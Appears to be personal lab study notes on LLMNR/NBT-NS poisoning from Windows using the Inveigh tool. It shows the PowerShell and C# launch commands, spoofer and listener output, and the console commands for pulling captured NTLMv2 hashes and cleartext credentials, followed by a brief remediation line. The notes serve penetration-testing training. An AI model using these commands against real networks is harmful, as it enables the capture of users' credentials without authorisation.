 ```yaml
---
title: LLMNR/NBT-NS Poisoning - Inveigh
draft: false
tags:
  - llmnr
  - nbt-ns
  - inveigh
---
```

On 3a, I wrote about LLMNR/NBT-NS Poisoning from Linux using Responder. 

Basically, attacker is spoofing as LLMNR/NBT-NS when DNS fails, and sends out fake response to collect password hashes.

This time, we will use [Inveigh](https://github.com/Kevin-Robertson/Inveigh)to do the same on Windows. 

【Inveigh】
- written in Powershell and C#
- Listen to protocols including, LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPs, SMB, LDAP, WebDAV, and Proxy Auth.


## Usage

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```


For LLMNR and NBNS spoofing:

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-02-28T19:26:30
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.5.25
[+] Spoofer IP Address = 172.16.5.25
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] NBNS TTL = 165 Seconds
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Certificate Issuer = Inveigh
[+] HTTPS Certificate CN = localhost
[+] HTTPS Capture = Enabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Tools
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
```


## InveighZero

Powershell version of inveigh is the original version but is no longer updated. However C# version is still maintained. 

```powershell-session
PS C:\htb> .\Inveigh.exe

[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
```

We can hit `ESC` to enter interactive console.

`HELP` shows several options:

```powershell-session
=============================================== Inveigh Console Commands ===============================================

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
GET DHCPv6Leases                | get DHCPv6 assigned IPv6 addresses
GET LOG                         | get log entries; add search string to filter results
GET NTLMV1                      | get captured NTLMv1 hashes; add search string to filter results
GET NTLMV2                      | get captured NTLMv2 hashes; add search string to filter results
GET NTLMV1UNIQUE                | get one captured NTLMv1 hash per user; add search string to filter results
GET NTLMV2UNIQUE                | get one captured NTLMv2 hash per user; add search string to filter results
GET NTLMV1USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv1 hashes
GET NTLMV2USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv2 hashes
GET CLEARTEXT                   | get captured cleartext credentials
GET CLEARTEXTUNIQUE             | get unique captured cleartext credentials
GET REPLYTODOMAINS              | get ReplyToDomains parameter startup values
GET REPLYTOHOSTS                | get ReplyToHosts parameter startup values
GET REPLYTOIPS                  | get ReplyToIPs parameter startup values
GET REPLYTOMACS                 | get ReplyToMACs parameter startup values
GET IGNOREDOMAINS               | get IgnoreDomains parameter startup values
GET IGNOREHOSTS                 | get IgnoreHosts parameter startup values
GET IGNOREIPS                   | get IgnoreIPs parameter startup values
GET IGNOREMACS                  | get IgnoreMACs parameter startup values
SET CONSOLE                     | set Console parameter value
HISTORY                         | get command history
RESUME                          | resume real time console output
STOP                            | stop Inveigh
```

`GET NTLMV2UNIQUE`: View captured hashes
`GET NTLMV2USERNAMES`: View usernames


## Remediation

- Disable LLMNR and NBT-NS


## Moving on

Now through 3a,b LLMNR/NBT-NS poisoning, we have captured and cracked hashes for several accounts. 

Now it's time to use this hashes:
- Bloodhound
- Password Spraying

